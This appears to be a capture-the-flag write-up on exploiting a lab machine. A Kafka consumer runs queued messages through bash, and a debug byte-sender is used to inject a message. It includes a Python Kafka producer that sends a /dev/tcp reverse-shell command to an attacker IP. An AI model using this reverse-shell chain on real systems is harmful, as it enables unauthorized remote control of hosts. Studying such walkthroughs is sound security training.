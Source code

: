 Now log in as admin. To access Debug/DNS sections, enroll a passkey—install Bitwarden in Firefox, create an account, and enroll. A Bitwarden prompt should appear to store the passkey.

Now we have access to three new sections: DNS, Debug, Blog

### DNS
We have the code in the gitea: every time the button `Force Records Re-fetch` is pressed, a message is queued in kafka, in the **update** topic. This message contains as value a path to a shell script that will be executed using bash:
```rust
    let topic = "update".to_string();
    let group = "update".to_string();

    let mut consumer = Consumer::from_hosts(vec![broker.clone()])
        .with_topic(topic)
        .with_group(group)
        .with_fallback_offset(FetchOffset::Earliest)
        .with_offset_storage(Some(GroupOffsetStorage::Kafka))
        .create()
        .expect("Kafka consumer");
// SNIP
        let Ok(message_sets) = consumer.poll() else {
            continue;
        };

        for message_set in message_sets.iter() {
            for message in message_set.messages() {
                let Ok(command) = str::from_utf8(message.value) else {
                    continue;
                };
// SNIP
let mut process = match Command::new("bash").arg("-c").arg(command).spawn() {
                    Ok(process) => process,
                    Err(error) => {
                        println!("[-] {error}");
                        continue;
                    }
                };
```
### Debug
Allows sending raw bytes to a host:port. 

By leveraging the debug tool, it's possible to queue a malicious message in the update topic to execute a **reverse shell**. Since the debug utility only accepts a hex-encoded payload, and Kafka requires messages to follow a specific format (including headers, padding, etc.), the easiest approach is to spawn a personal Kafka instance using Docker. You can then send a message to the **update** topic containing the payload, inspect the raw bytes using **Wireshark**, and finally send those bytes via the debug section.
```python
from kafka import KafkaProducer

producer = KafkaProducer(bootstrap_servers='localhost:9092')
producer.send('update', b'exec bash -i &>/dev/tcp/10.x.x.x/443 <&1')
producer.flush()
```
> In Wireshark, copy bytes from "Short Message Peer to Peer" and "[Malformed Packet: SMPP]".
